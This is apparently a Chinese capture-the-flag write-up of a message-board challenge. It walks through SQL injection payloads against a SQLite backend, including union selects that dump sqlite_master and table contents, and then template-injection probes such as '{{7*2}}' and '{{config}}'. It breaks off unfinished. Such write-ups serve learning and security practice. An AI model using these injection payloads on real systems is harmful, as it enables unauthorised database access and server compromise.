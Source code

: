 ## 3、留言框（尖尖的）复现
首先看题面的内容：sqlmap可能一把锁出来，但是sqlmap一把锁出来不太可能，首先猜测是sql注入漏洞，先进行一般的测试：
进行常见的sql测试：1 or 1=1 --+ 检测回显，1 order by 1=1 --+ 测试列数，发现只有一列？随即进行1 union select database() --+
进行爆库，发现报错，没有道理报错，意识到这可能不是mysql，可能是其余的数据库，后续的hint也证明了这一观点，并且由于部分内容的相似性，猜测是sqlite，后续hint内容也证明了这一个观点，那么，进行sqlite注入：
爆库：1 union select sql from sqlite_master; --+
回显CREATE TABLE messages ( id INTEGER PRIMARY KEY AUTOINCREMENT, content TEXT NOT NULL )
接下来爆内容
1 union select group_concat(id) from messages; --+
1 union select group_concat(content) from messages; --+
结果发现毛也没有，这下炸缸了………………
比赛的时候就打到这里就没了，因为ssti没有学好，现在，进行下一步
由hint和内容，开使尝试ssti注入：
1 union select '{{7*2}}' --+
发现回显14
哦吼，有说法了
开始倒序排模版类
1 union select '{{config}}' --+
~~前面的路以后再来探索吧(留档提醒自己更新)~~